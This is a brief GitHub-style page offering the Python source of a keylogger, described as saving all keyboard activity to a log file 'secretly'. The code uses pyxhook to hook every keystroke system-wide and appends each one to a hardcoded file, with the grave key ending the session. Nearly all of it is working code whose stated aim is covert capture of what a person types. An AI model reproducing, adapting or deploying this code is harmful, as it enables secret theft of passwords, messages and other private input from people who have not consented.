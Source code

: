 # keylogger
simple keylogger in which all you keyboard activities will be saved in a log file secretly.


import pyxhook
#change this to your log file's path
log_file='/home/wavenet/Desktop/mrinal/file.log'

#this function is called everytime a key is pressed. onekeypress is the function which execute evrytime a key i9s pressed.
def OnKeyPress(event):
  act=open(log_file,'a')
  act.write(event.Key)
  act.write('\n')

  if event.Ascii==96: #96 is the ascii value of the grave key (`) , if grave is pressed the log file is closed and session is terminated.
    act.close()
    new_hook.cancel()
#instantiate HookManager class
new_hook=pyxhook.HookManager()
#listen to all keystrokes
new_hook.KeyDown=OnKeyPress
#hook the keyboard
new_hook.HookKeyboard()
#start the session
new_hook.start()
